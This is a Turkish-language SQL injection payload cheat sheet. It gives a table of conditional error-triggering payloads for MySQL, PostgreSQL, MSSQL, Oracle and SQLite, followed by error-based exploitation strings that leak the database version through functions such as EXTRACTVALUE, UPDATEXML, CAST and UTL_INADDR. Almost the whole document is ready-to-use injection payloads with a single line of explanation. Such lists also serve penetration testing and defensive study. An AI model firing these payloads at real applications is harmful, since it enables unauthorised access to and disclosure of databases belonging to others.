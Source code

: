 | Varyant      | Payload                                       |
|--------------|-----------------------------------------------|
| **MySQL**    | `AND 1=(SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),1))` |
| **PostgreSQL** | `AND 1=(SELECT CASE WHEN (1=1) THEN CAST(1/0 AS INTEGER) ELSE 1 END)` |
| **MSSQL**    | `AND 1=(SELECT CASE WHEN (1=1) THEN 1/0 ELSE 1 END)` |
| **Oracle**   | `AND 1=(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)` |
| **SQLite**   | `AND 1=(SELECT CASE WHEN (1=1) THEN load_extension(1) ELSE 1 END)` |
# Error Based Exploitation

Bu enjeksiyon yükleri, bir veritabanı hatasına neden olmalı ve bu hata içinde kullanılan veritabanı sürümü bilgisini döndürmelidir.

## MySQL
### Payload
```sql
AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -
AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -
AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -
AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -
OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -
AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -
```

## PostgreSQL
### Payload
```sql
AND 1337=CAST('~'||(SELECT version())::text||'~' AS NUMERIC) -- -
AND (CAST('~'||(SELECT version())::text||'~' AS NUMERIC)) -- -
AND CAST((SELECT version()) AS INT)=1337 -- -
AND (SELECT version())::int=1 -- -
```

## MSSQL
### Payload
```sql
AND 1337 IN (SELECT ('~'+(SELECT @@version)+'~')) -- -
AND 1337=CONVERT(INT,(SELECT '~'+(SELECT @@version)+'~')) -- -
AND 1337=CONCAT('~',(SELECT @@version),'~') -- -
```

## Oracle
### Payload
```sql
AND 1337=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||'~'||(REPLACE(REPLACE(REPLACE(REPLACE((SELECT banner FROM v$version),' ','_'),'$','(DOLLAR)'),'@','(AT)'),'#','(HASH)'))||'~'||CHR(62))) FROM DUAL) -- -
AND 1337=UTL_INADDR.GET_HOST_ADDRESS('~'||(SELECT banner FROM v$version)||'~') -- -
AND 1337=CTXSYS.DRITHSX.SN(1337,'~'||(SELECT banner FROM v$version)||'~') -- -
AND 1337=DBMS_UTILITY.SQLID_TO_SQLHASH('~'||(SELECT banner FROM v$version)||'~') -- -
```
